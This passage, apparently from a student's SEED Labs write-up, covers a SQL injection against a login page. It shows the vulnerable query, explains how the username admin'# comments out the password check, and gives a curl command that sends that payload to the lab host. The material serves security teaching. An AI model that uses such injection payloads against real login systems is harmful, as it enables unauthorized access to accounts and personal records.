 **Result:**

![Logged in as admin](./assets/sqli_task_02_01_02.png)

**Explanation:**

The server takes input from the user to form the following SQL query:

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, password
FROM credential
WHERE Name = '$input_uname' and Password = '$hashed_pwd';
```

By setting `$input_uname` to `admin'#`, the following SQL query is formed:

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, password
FROM credential
WHERE Name = 'admin'#' and Password = '<unknown>';
```

Everything after `'admin'` is ignored as it is commented out.

At first, we tried `--` SQL comment. However, that led to an error on the backend. Then, we explored multiple ways to write a comment in PHP, and found that PHP supports `//`, `#`, and `/* */` comments. We tried each one of them and found that `#` comment method worked.

#### Task 2.2

SQL Injection Attack from command line:

```bash
curl http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%23&Password=
```

